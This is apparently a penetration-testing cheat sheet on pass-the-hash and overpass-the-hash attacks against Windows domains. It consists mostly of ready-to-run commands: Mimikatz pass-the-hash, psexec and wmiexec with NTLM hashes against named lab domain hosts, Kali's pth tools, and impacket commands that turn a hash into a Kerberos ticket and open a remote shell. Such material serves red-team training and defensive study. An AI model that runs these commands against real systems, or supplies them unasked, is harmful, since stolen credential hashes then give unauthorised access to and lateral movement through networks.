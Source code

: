 # Passing Hashes and keys

If You can't crack those hashes you can pass them or overpass them 

## PTH From windows:

Can be done with 

mimikatz (powershell version here)
```ps
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 
```

psexec_windows.exe
```cmd
psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local
```

wmiexec.exe 
```cmd
wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local
```

Or many powershell scripts from [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) that do SMB, WMI and some other magic.


## PTH From Linux

Kali has a wide-array of pth tools wrapped into a passing-the-hash package:

Install with

`sudo apt install passing-the-hash`

From tab-completion just to show the options.
```
─$ pth-
pth-curl       pth-rpcclient  pth-smbget     pth-winexe     pth-wmis                                 
pth-net        pth-smbclient  pth-sqsh       pth-wmic                     
```

## OVER-PASS-THE-HAS/PASS the Key attack

This attack aims to use the user NTLM hash or AES keys to request Kerberos tickets, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.


#### OverPass-The-Hash Via impacket
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
You can specify -aesKey [AES key] to specify to use AES256.
You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

